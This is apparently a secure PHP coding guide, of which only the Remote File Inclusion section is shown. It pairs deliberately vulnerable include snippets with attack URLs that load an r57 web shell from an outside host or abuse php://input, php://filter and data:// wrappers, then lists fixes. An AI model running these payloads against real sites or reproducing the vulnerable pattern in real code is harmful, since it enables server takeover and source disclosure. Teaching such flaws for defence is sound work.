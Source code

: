 #Secure PHP Coding
# Author: ret2win
(shout out to dustin for help contributing)

1. Remote File Inclusion (RFI)
2. Local File Inclusion (LFI)
3. Local File Disclosure/Download
4. Remote File Upload
5. Remote Command Execution
6. Remote Code Execution (RCE)
7. Authentication Bypass/Insecure Permissions
8. Cross-Site Scripting(XSS)
9. Cross Site Request Forgery(CSRF)

##1) Remote File Inclusion
####Affected PHP Functions
- require
- require_once
- include
- include_once

####Vulnerable Codes

test.php
```php
<?php
$theme = $_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = $_GET['theme'];
include $theme.'.php';
?>
```
####Attack
- Including Remote Code: 
 	- http://localhost/rfi/index.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt
	- http://localhost/rfi/index1.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt?
- Using PHP stream php://input:
	- http://localhost/rfi/index.php?theme=php://input 
- Using PHP stream php://filter:
	- http://localhost/rfi/index.php?theme=php://filter/convert.base64-encode/resource=index.php
- Using data URIs:
	- http://localhost/rfi/index.php?theme=data://text/plain;base64,SSBsb3ZlIFBIUAo=
	
####How to fix
- set `allow_url_include = Off` in php.ini
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the slash "/"
- filter "http" , "https" , "ftp" and "smb"
